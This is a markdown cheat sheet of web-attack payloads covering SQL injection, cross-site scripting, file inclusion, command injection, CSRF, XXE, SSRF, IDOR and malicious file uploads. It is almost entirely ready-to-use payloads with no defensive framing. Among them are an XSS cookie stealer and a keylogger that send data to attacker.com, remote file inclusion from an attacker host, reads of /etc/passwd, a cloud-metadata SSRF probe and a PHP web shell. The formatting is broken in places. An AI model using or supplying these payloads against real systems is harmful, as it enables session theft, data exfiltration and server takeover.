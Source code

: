 ### 1. SQL Injection (SQLi)

**Basic SQL Injection Payloads:**
- Auth Bypass
```
	' OR '1'='1'	
```
- Union-based SQLi:
```
	' UNION SELECT null, username, password FROM users --
```
- Error Based SQLi:
```
- ' AND 1=CONVERT(int, (SELECT @@version)) --
```
- Boolean Based Blind SQLi:
	
	``` AND (SELECT SUBSTRING(@@version, 1, 1)) = '5' --```


**Advanced SQL Injection Payloads:**

- **Extracting Data:**
```
    ' UNION SELECT 1, username, password FROM users --
    ```
    
	 
	 
	 
	 **Time-based Blind SQLi:**
    
    
    

- ```
    ' OR IF(1=1, SLEEP(5), 0) --
    ```
    

### 2. Cross-Site Scripting (XSS)

**Reflected XSS Payloads:**

- **Basic Alert:**
    
    javascript
    

- ```
    <script>alert('XSS')</script>
    ```
    
- **Cookie Stealer:**
    
    javascript
    

- ```
    <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
    ```
    

**Stored XSS Payloads:**

- **Persistent Alert:**
    
    javascript
    

- ```
    <img src=x onerror="alert('XSS')">
    ```
    
- **Keylogger:**
    
    javascript
    

- ```
    <script>
    document.onkeypress = function(e) {
        fetch('http://attacker.com/log?key=' + e.key);
    }
    </script>
    ```
    

### 3. Remote File Inclusion (RFI)

**Basic RFI Payloads:**

- **Include a Remote File:**
    
    php
    

- ```
    http://target.com/vuln.php?page=http://attacker.com/malicious.txt
    ```
    

**PHP Code Execution via RFI:**

- **Execute PHP Code:**
    
    php
    

- ```
    http://target.com/vuln.php?page=http://attacker.com/malicious.php
    ```
    

### 4. Local File Inclusion (LFI)

**Basic LFI Payloads:**

- **Access `/etc/passwd`:**
    
    php
    

- ```
    page=../../../../etc/passwd
    ```
    
- **Null Byte Injection (to bypass extensions):**
    
    php
    

- ```
    page=../../../../etc/passwd%00
    ```
    

### 5. Command Injection

**Basic Command Injection Payloads:**

- **Execute Command:**
    
    bash
    

- ```
    ; ls -la
    ```
    
- **Chaining Commands:**
    
    bash
    

- ```
    | whoami
    ```
    

### 6. Cross-Site Request Forgery (CSRF)

**Basic CSRF Payloads:**

- **Form Submission:**
    
    html
    

- ```
    <form action="http://target.com/vulnerable_action" method="POST">
        <input type="hidden" name="param" value="malicious_value">
        <input type="submit" value="Submit">
    </form>
    ```
    

### 7. XML External Entity (XXE)

**Basic XXE Payloads:**

- **Extracting Files:**
    
    xml
    

- ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [ 
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
    ]>
    <data>&xxe;</data>
    ```
    

### 8. Server-Side Request Forgery (SSRF)

**Basic SSRF Payloads:**

- **Access Internal Services:**
    
    http
    

- ```
    http://target.com/vulnerable_endpoint?url=http://169.254.169.254/latest/meta-data/
    ```
    

### 9. Insecure Direct Object Reference (IDOR)

**Basic IDOR Payloads:**

- **Accessing User Data:**
    
    http
    

- ```
    http://target.com/user?id=1234
    ```
    

### 10. File Upload Vulnerabilities

**Basic Payloads for File Upload:**

- **Malicious PHP File:**
    
    php
    

- ```
    <?php system($_GET['cmd']); ?>
    ```
    
- **Upload as Image:**
    
    php
    

```
<img src="data:image/png;base64,<?php echo base64_encode('<?php system($_GET["cmd"]); ?>'); ?>" />
```